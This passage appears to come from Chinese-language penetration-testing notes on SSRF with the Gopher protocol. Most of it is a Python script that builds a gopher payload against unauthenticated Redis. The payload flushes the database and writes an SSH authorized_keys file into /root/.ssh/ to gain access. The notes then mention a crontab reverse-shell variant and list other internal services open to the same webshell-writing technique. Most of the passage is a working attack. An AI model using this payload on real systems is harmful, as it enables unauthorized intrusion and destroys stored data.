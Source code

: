     filename="authorized_keys"
    # path="/var/www/html"
    # 3. 改路径
    path="/root/.ssh/"
    passwd=""
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),
         "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    
    if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print(payload)
    ```

4. 自己实验的时候，发现写不进去，权限不够。

#### 5.1.3 写入 crontab 计划任务以反弹 Shell

1. 这个 Ubuntu 行不通，详情见：

    > https://www.cnblogs.com/linuxsec/articles/11221756.html

### 5.2 结合其他的攻击

1. 除了 Redis 未授权访问，其他相关未授权或者能直接访问的服务，其实都可以利用 SSRF + `Gopher` 协议写马，包括但不限于：

    1. MySQL (Port-3306)
    2. PostgreSQL(Port-5432)
    3. FastCGI (Port-9000)
    4. Redis (Port-6379)
    5. Zabbix (Port-10050)
    6. SMTP (Port-25)

2. 当发现未授权的服务时，可以使用该工具生成 payload：
